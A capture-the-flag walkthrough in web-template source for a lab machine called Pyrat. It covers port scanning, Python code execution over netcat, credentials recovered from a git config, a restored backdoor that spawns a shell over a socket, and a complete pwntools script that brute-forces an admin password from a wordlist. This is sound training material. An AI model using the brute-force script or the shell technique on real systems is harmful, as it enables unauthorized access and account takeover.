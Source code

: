 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let's begin by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.209.122", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 09:23 CET
Nmap scan report for 10.10.209.122
Host is up (0.090s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
")}}

{{text("After visiting the site on port 8000, we encountered the following.")}}

{{image("../../static/writeups/pyrat/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Initially, I tried using Burp Suite, but it didn't lead anywhere. Then, I used netcat to connect to the address. Since it was stated that <code class='bg-gray-300 rounded-md px-1'>a HTTP response leads to a Python code vulnerability</code>, I immediately attempted to run Python code.")}}

{{console("nc 10.10.209.122 8000", "l
name 'l' is not defined
test
name 'test' is not defined
print(2)
2
")}}

{{text("Since it worked, I used a Python reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code> and attempted to get it running.")}}

{{image("../../static/writeups/pyrat/images/000002.jpg")}}

{{text("This worked, and now we were the <code class='bg-gray-300 rounded-md px-1'>www-data</code> user.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("While exploring the system, I discovered a <code class='bg-gray-300 rounded-md px-1'>.git</code> directory inside <code class='bg-gray-300 rounded-md px-1'>/opt/dev</code>.")}}

{{text("The challenge description mentioned we should <code class='bg-gray-300 rounded-md px-1'>explore the application's older version</code>, so I decided to investigate further.")}}

{{text("Inside the <code class='bg-gray-300 rounded-md px-1'>.git</code> directory, I came across an old <code class='bg-gray-300 rounded-md px-1'>config</code> file containing user credentials.")}}

{{console("cat config", "[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential 'https://github.com']
        username = think
        password = [REDACTED]")}}

{{text("We switched users to <code class='bg-gray-300 rounded-md px-1'>think</code> and successfully logged in using the newly obtained password.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Next, we navigated to <code class='bg-gray-300 rounded-md px-1'>/opt/dev</code> to check for the older version of the application.")}}

{{console("git status", "On branch master
Changes not staged for commit:
  (use 'git add/rm <file>...' to update what will be committed)
  (use 'git restore <file>...' to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use 'git add' and/or 'git commit -a')")}}

{{text("We noticed that <code class='bg-gray-300 rounded-md px-1'>pyrat.py.old</code> had been deleted. Let's attempt to restore that file.")}}

{{image("../../static/writeups/pyrat/images/000003.jpg")}}

{{text("Now, we can read the contents of the restored file.")}}

{{console("cat pyrat.py.old", "def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if not approved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn('/bin/sh')")}}

{{text("We can see that if <code class='bg-gray-300 rounded-md px-1'>data == 'shell'</code>, the <code class='bg-gray-300 rounded-md px-1'>shell</code> function is executed, which spawns a shell.")}}

{{text("Let's try connecting to our target again using netcat and input <code class='bg-gray-300 rounded-md px-1'>shell</code>.")}}

{{image("../../static/writeups/pyrat/images/000004.jpg")}}

{{text("It works, but unfortunately, we are still the <code class='bg-gray-300 rounded-md px-1'>www-data</code> user.")}}

{{text("It seems that the key is to correctly guess the <code class='bg-gray-300 rounded-md px-1'>some_endpoint</code>.")}}

{{text("To be honest, I didn't feel like writing a script for it, so I started guessing since this is an easy challenge, and I got lucky.")}}

{{image("../../static/writeups/pyrat/images/000005.jpg")}}

{{text("We need the admin's password, so I guess that's karma. I wrote a script to guess the password.")}}

{{console("from pwn import *

server = '10.10.88.128'
port_number = 8000
wordlist_path = '/usr/share/wordlists/rockyou.txt'

def create_connection():
    return remote(server, port_number)

def try_login(password_guess):
    session = create_connection()
    session.sendline(b'admin')
    session.recvuntil(b'Password:')
    session.sendline(password_guess.encode())
    feedback = session.recvline(timeout=2)
    feedback = session.recvline(timeout=2)
    if b'Password:' in feedback:
        print(f'Attempt with \'{password_guess}\' failed.')
        session.close()
        return False
    elif b'Welcome' in feedback or b'Success' in feedback:
        print(f'Potential success with \'{password_guess}\'!')
        session.close()
        return True
    else:
        print(f'Unexpected feedback for \'{password_guess}\': {feedback}')
        session.close()
        return False

def brute_force_password():
    with open(wordlist_path, 'r', encoding='latin-1') as wordlist:
        for password in wordlist:
            password = password.strip()
            if try_login(password):
                print(f'Valid password identified: {password}')
                break

if __name__ == '__main__':
    brute_force_password()")}}

{{text("We got the password almost immediately.")}}

{{image("../../static/writeups/pyrat/images/000006.jpg")}}

{{text("After logging in as admin, we gained root access. Now, we just need to go to <code class='bg-gray-300 rounded-md px-1'>/root</code> and retrieve our flag.")}}

{{image("../../static/writeups/pyrat/images/000007.jpg")}}

{{script()}}  
